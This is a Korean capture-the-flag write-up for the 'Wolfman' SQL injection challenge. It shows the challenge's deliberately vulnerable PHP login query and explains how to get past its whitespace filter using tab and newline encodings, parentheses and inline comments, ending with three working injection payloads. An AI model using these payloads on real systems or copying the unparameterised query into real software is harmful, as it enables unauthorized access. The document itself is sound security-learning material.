 ###### 이번부터 한글로 적기로 하였습니다..
# **Wolfman**
## 1. 문제의도
공백 없이 쿼리를 작성할 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))  
          exit("No Hack ~_~"); 

      if(preg_match('/ /i', $_GET[pw]))
          exit("No whitespace ~_~"); 

      $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
          echo "<h2>Hello {$result[id]}</h2>"; 
      
      if($result['id'] == 'admin')
          solve("wolfman"); 

      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 공백을 사용할 수 없다는 점입니다.

    prob | _ | . | () | 공백

### 2. query

    select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'

pw 파라미터를 통해서만 이 쿼리를 조작할 수 있을 것 같다.

### 3. if($result['id'] == 'admin') solve("wolfman");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution

이 문제에서는 우리가 MySQL의 부드러운 문법에 대해 알고 있는지에 대한 것 같다

중요한 것은 공백 이외의 구분문자들을 통해서도 쿼리를 구성 할 수 있다는 것이다.

### 1. 이스케이프 문자 사용
우리가 보아왔던 이스케이프 문자들 중에서 MySQL이 구분문자로 인식하는 것들은 다음과 같다.

    %09 | %0a | %0b | %0c | %0d

    %09 = Horizontal Tab (수평 탭. \t)
    
    %0a = Line Feed (Move Caret right down. \n)
    
    %0b = Vertical Tab (수직 탭. \v)
    
    %0c = Form feed (if you use this in printer, it will change paper to next paper. 다음장으로 바꿈. \f)
    
    %0d = Carriage return (Move Caret start of line where this is. 타자기에서 끝까지 다 쳤을때 왼쪽으로 미는거 \r)

### 2. 괄호 사용
그리고 (), 괄호를 사용할 수도 있다.

    or id="hello" 와 or(id)="hello" 는 같은 맥락이다.

### 3. 주석 활용
주석을 사용하면 공백과 같은 구분 효과를 얻을 수 있다.

    or id="admin" 과 or/**/id="admin" 은 같은 맥락이다.

### My Answers :
    
    ?pw='or%09id='admin // 구분 문자 이용

    ?pw='or(id)='admin // 괄호 사용 구분

    ?pw='or/**/id='admin // 주석 사용
      
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**